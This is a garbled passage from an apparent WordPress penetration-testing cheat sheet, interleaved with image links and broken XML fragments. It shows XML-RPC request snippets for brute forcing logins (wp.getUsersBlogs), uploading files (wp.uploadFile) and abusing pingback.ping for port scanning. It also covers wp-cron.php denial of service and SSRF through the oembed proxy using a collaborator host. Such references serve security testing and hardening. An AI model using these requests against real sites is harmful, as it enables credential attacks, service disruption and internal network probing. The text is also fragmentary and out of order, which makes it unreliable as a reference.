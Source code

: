 </value\></param\></params\>

![](ReadItLater%20Inbox/assets/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2Fgit-blob-aea4b23cdd94102884b2c4c8d3a1a3f95a65065f%2F1_JaUYIZF8ZjDGGB7ocsZC-g.png..png?alt=media)

If you get **faultCode** with a value **greater** then **0** (17), it means the port is open.

Take a look to the use of \*\*`system.multicall`\*\*in the previous section to learn how to abuse this method to cause DDoS.

## 

wp-cron.php DoS

This file usually exists under the root of the Wordpress site: `/wp-cron.php` When this file is **accessed** a "**heavy**" MySQL **query** is performed, so I could be used by **attackers** to **cause** a **DoS**. Also, by default, the `wp-cron.php` is called on every page load (anytime a client requests any Wordpress page), which on high-traffic sites can cause problems (DoS).

It is recommended to disable Wp-Cron and create a real cronjob inside the host that perform the needed actions in a regular interval (without causing issues).

<methodName\>wp.getUsersBlogs</methodName\>

<param\><value\>username</value\></param\>

<param\><value\>password</value\></param\>

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LqvJkAq8QsmqJVl5YPk%2F-LqvKsBpB93Bihm-Z85a%2Fimage.png?alt=media&token=0ce1ce38-6243-4db7-9ec4-bd90a6ba1082)

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LqvJkAq8QsmqJVl5YPk%2F-LqvL04mypTbKS1dqlvO%2Fimage.png?alt=media&token=7d241f68-9463-4d2f-a11a-6a1c8dfec8c8)

<?xml version='1.0' encoding='utf-8'?>

<methodName\>wp.uploadFile</methodName\>

<param\><value\><string\>1</string\></value\></param\>

<param\><value\><string\>username</string\></value\></param\>

<param\><value\><string\>password</string\></value\></param\>

<value\><string\>filename.jpg</string\></value\>

<value\><string\>mime/type</string\></value\>

<value\><base64\><!\[CDATA\[---base64-encoded-data---\]\]></base64\></value\>

<methodName\>pingback.ping</methodName\>

<param\><value\><string\>http://target/</string\></value\></param\>

<param\><value\><string\>http://yoursite.com/and\_some\_valid\_blog\_post\_url</string\></value\></param\>

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LqvJkAq8QsmqJVl5YPk%2F-LqvLVwCIiR8H92kgeG2%2Fimage.png?alt=media&token=d1dacf17-357a-40d1-b65b-60c7113f1050)

## 

/wp-json/oembed/1.0/proxy - SSRF

Try to access *https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net* and the Worpress site may make a request to you.
